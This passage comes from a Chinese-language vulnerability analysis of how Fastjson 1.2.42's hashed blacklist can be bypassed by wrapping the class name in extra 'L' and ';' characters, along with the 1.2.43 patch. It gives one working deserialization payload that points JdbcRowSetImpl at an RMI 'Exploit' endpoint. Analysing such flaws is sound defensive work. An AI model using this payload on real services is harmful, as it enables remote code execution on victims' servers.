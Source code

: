 - [补丁commit](https://github.com/alibaba/fastjson/commit/e701faa2da7cff6d94394061bbff06a166c2aaaf)
- [1.2.42](https://github.com/alibaba/fastjson/tree/1.2.42)

## 修复思路

- 修改之前明文方式的`denyList`为`denyHashCodes`，防止研究人员根据包名找到新的利用链；
- 将`Lcom.sun.rowset.JdbcRowSetImpl;` 前后符号去掉并处理为`hashCode`加入黑名单

---

# 版本1.2.42

## 绕过原因

> 从1.2.42开始使用denyHashCodes的方式进行黑白名单检测

先给出PoC，关键部分为：**LLcom.sun.rowset.JdbcRowSetImpl;;**

```java
"{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\", \"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":false}"
```

## 详情分析

刚刚提到了为了提高攻击门槛，Fastjson将黑名单转成了哈希的形式，避免被直接利用。

但是由于修复过程中只考虑到了`Lcom.sun.rowset.JdbcRowSetImpl;`情况，并对其中的类名进行了一次提取，并将提取后的结果取`hashCode`进行判断，导致`LLcom.sun.rowset.JdbcRowSetImpl;;`或者前后加更多的`L和;`也能进行绕过，具体原因下面分析：

![Fastjson%20Bypass/Untitled%203.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/3.png)

> 可以看到上图是1.2.42中的两次不同判断方式，可能再第一次直接使用明文后，考虑到会被直接想到使用加符号的形式绕过低版本，也同样改成了使用hashCode的形式进行判断。

利用`Lcom.sun.rowset.JdbcRowSetImpl;`的hashCode绕过了黑名单，接下来利用`typeName`获取Class对象，可以看到`typeName`为`LLcom.sun.rowset.JdbcRowSetImpl;;`，为什么还是能执行 ？

![Fastjson%20Bypass/Untitled%204.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/4.png)

由于Fastjson在提取类名上的一些特性，当检测到开头为`L`结尾为`;`时，就会一直循环提取`L和;`之间的内容，直到提取到真正的类名。

![Fastjson%20Bypass/Untitled%205.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/5.png)

## 补丁

- [补丁commit](https://github.com/alibaba/fastjson/commit/f92e43095031935a2f8086f2de8831f45c3a34e5)
- [1.2.43](https://github.com/alibaba/fastjson/tree/1.2.43)

## 修复思路

由于使用上面的方式绕过，类名前面会出现至少两个`L`，因此在判断了开头为`L`，结尾为`;`时，会再判断第二个字符是否为`L`
